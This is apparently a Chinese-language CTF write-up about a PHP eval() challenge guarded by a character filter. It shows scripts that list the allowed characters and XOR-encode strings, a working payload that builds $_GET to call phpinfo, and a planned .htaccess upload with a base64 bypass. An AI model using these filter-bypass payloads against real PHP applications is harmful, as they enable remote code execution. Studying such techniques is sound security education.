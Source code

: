```php
    die('One inch long, one inch strong!');
}

if ( preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i', $hhh) )
    die('Try something else!');

$character_type = count_chars($hhh, 3);
if(strlen($character_type)>12) die("Almost there!");

eval($hhh);
?>
```

正则过滤的很死

用个脚本检测下还剩下什么字符

```php
<?php
for($a = 0; $a < 256; $a++){
    if (!preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i', chr($a))){
        echo chr($a)." ";
    }
}
?>
```
剩下
> ! # $ % ( ) * + - / : ; < > ? @ \ ] ^ { }

既然有异或符号，就一定可以异或出所有字符

```php
<?php
$payload = '';
$x = '_GET';
for($i = 0; $i < strlen($x); $i++){
    for ($j = 0; $j < 255; $j++){
        $k = chr($j) ^ chr(255);
        if ($k == $x[$i]) {
            $payload .= '%'.dechex($j);
        }
    }
}
echo '%ff%ff%ff%ff^'.$payload;
?>
```

```
?_=${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=phpinfo
```

构造`$_GET[%ff]`（构造`$_GET[%ff]($_GET[%fe])`会超出长度

所以接下来只能利用给出的`get_the_flag`函数
上传`.htaccess`文件，利用**base64**来绕过
